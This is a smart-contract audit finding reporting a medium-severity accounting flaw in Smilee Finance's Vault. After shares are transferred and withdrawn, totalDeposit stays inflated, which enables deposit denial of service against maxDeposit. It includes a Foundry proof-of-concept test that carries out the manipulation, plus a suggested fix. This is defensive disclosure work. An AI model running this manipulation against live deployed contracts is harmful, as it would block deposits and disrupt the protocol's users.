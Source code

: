 Gentle Fiery Locust

medium

# Manipulation of _state.liquidity.totalDeposit

## Summary

LP can transfer their shares to another LP through ERC20 transfer. Thus, when the second LP withdraws these shares, they will not be deducted from _state.liquidity.totalDeposit. This way, _state.liquidity.totalDeposit will not reflect the actual amount of deposits, leading to various issues.

## Vulnerability Detail

When depositing, the amount is added to _state.liquidity.totalDeposit and to depositReceipt.cumulativeAmount. When withdrawing, it is determined what portion of the shares the user wants to withdraw, a proportional part of depositReceipt.cumulativeAmount is calculated, and it is deducted from depositReceipt.cumulativeAmount and from _state.liquidity.totalDeposit. Therefore, a user can withdraw max their initial deposit from the total deposits even if they have received shares from other users. Example:

1) User A has 10 shares and an initial deposit of $100, i.e., depositReceipt.cumulativeAmount = 100.
2) User A receives 10 shares from user B.
3) User A withdraws 10 shares, reducing depositReceipt.cumulativeAmount by 10/20 -> $50. Accordingly, $50 is deducted from _state.liquidity.totalDeposit.
4) User A withdraws the last 10 shares. Similarly, $50 is deducted from depositReceipt.cumulativeAmount and from _state.liquidity.totalDeposit.
5) The problem is that in this way, the initial deposit of $100 from user B is not deducted from _state.liquidity.totalDeposit, but the shares are withdrawn.

The maxDeposit variable is used to allow administrators to control the TVL in the protocol (they intentionally measure only deposits, i communicated it with them). It determines the maximum value that _state.liquidity.totalDeposit can reach. As seen above, a malicious user can artificially increase _state.liquidity.totalDeposit, thereby limiting the actual amount of deposits that can be made because the deposit function will revert if someone try to deposit amount more than maxDeposit - _state.liquidity.totalDeposit.

The described above leads to the following attacks: 
1. A user can artificially maintain a high utilization ratio. For example when there is significant interest in the IG tool from traders but insufficient funds can be deposited by LPs
2. A user can decide to launch a denial-of-service (DOS) attack on the deposits by manipulating state.liquidity.totalDeposit and maxDeposit. Administrators can increase maxDeposit, but if the value is not sufficiently large, the procedure can be repeated. On the other hand, an excessively high value will render the TVL control mechanism useless.

These attacks can go unnoticed by the protocol team for a long time because when checking the balance of the Vault, it will appear that it does not exceed maxDeposit, and there will be no need to increase it.

<details>
<summary>POC</summary>
This function should be added in Scenarios.t.sol

```solidity
    function testManipulateDepositsAccounting() public 
    {
        string memory scenarioName = "scenario_1";
        bool isFirstEpoch = true;

        console.log(string.concat("Executing scenario: ", scenarioName));
        string memory scenariosJSON = _getTestsFromJson(scenarioName);

        console.log("- Checking start epoch");
        StartEpoch memory startEpoch = _getStartEpochFromJson(scenariosJSON);
        _checkStartEpoch(startEpoch, isFirstEpoch);

        address attacker = address(0x4);
        uint256 amount = 400000e18;

        TokenUtils.provideApprovedTokens(_admin, _vault.baseToken(), attacker, address(_vault), amount, vm);
        
        vm.startPrank(_liquidityProvider);
        _vault.redeem(800000000000000000000000);

        vm.startPrank(attacker);
        _vault.deposit(amount, attacker, 0);

        Utils.skipWeek(true, vm);
        vm.startPrank(_admin);
        _dvp.rollEpoch();

        vm.startPrank(attacker);
        _vault.redeem(400000000000000000000000);

        vm.startPrank(_liquidityProvider);
        IERC20(_vault).transfer(attacker, 800000000000000000000000);

        vm.startPrank(attacker);
        _vault.initiateWithdraw(1200000000000000000000000);

        Utils.skipWeek(true, vm);
        vm.startPrank(_admin);
        _dvp.rollEpoch();
        
        vm.startPrank(attacker);
        _vault.completeWithdraw();

        (,,,, uint256 totalDeposit,,,,) = _vault.vaultState();

        //you can see that the value of  state.liquidity.totalDeposit is not 0 even when all shares was withdrawn. 
        console.log("Total deposit: %d", totalDeposit);
    }
```
</details>

## Impact

Manipulation of the mechanics of the protocol and broken core functionality in case of dos. (point 2.)

## Code Snippet

https://github.com/sherlock-audit/2024-02-smilee-finance/blob/3241f1bf0c8e951a41dd2e51997f64ef3ec017bd/smilee-v2-contracts/src/Vault.sol#L324-L338
https://github.com/sherlock-audit/2024-02-smilee-finance/blob/3241f1bf0c8e951a41dd2e51997f64ef3ec017bd/smilee-v2-contracts/src/Vault.sol#L507-L510

## Tool used

Manual Review

## Recommendation

An idea for a fix is to move the depositReceipt.cumulativeAmount from the sender to the recipient when there is a transfer of shares from one user to another.
